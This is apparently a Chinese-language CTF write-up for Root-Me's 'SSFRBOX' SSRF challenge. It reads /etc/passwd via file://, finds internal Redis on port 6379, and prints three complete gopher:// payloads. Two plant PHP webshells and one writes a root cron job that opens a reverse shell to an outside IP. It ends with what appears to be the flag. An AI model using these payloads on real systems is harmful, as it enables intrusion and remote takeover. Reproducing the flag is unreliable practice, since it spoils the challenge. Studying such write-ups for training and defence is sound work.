# SSFRBOX

## 题目描述
---
```

```

## 题目来源
---
rootme

## 主要知识点
---
SSRF

## 题目分值
---


## 部署方式
---


## 解题思路
---

url=file:///etc/passwd



```
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
avahi:x:70:70:Avahi mDNS/DNS-SD Stack:/var/run/avahi-daemon:/sbin/nologin
avahi-autoipd:x:170:170:Avahi IPv4LL Stack:/var/lib/avahi-autoipd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
```

使用`php://filter`协议发现不可以使用



使用BurpSuite的工具对本期内网进行爆破，发现`6379`存活，是Redis服务





到这里有多种方式，给出Redis的两种方式，一种是直接写WebShell，一种反弹Bash

### WebShell

利用工具[Gopherus](https://github.com/tarunkant/Gopherus)生成攻击脚本



```
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2434%0D%0A%0A%0A%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A
```

将内容加入到页面中的input中



即可得到shell



换个一句话木马

```
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2434%0D%0A%0A%0A%3C%3Fphp%20eval%28%24_POST%5B%27cmder%27%5D%29%3B%20%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%2410%0D%0Ashell2.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A
```

使用BP发送是这样的



得到权限



但是使用webshell的权限很低



### 反弹bash

继续使用工具[Gopherus](https://github.com/tarunkant/Gopherus)生成payload

```
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2468%0D%0A%0A%0A%2A/1%20%2A%20%2A%20%2A%20%2A%20bash%20-c%20%22sh%20-i%20%3E%26%20/dev/tcp/150.109.79.99/1234%200%3E%261%22%0A%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2416%0D%0A/var/spool/cron/%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A
```


执行



在vps上获取到Bash



8bf1cdacc5aed910ee62913f80360a3f

## 参考
---
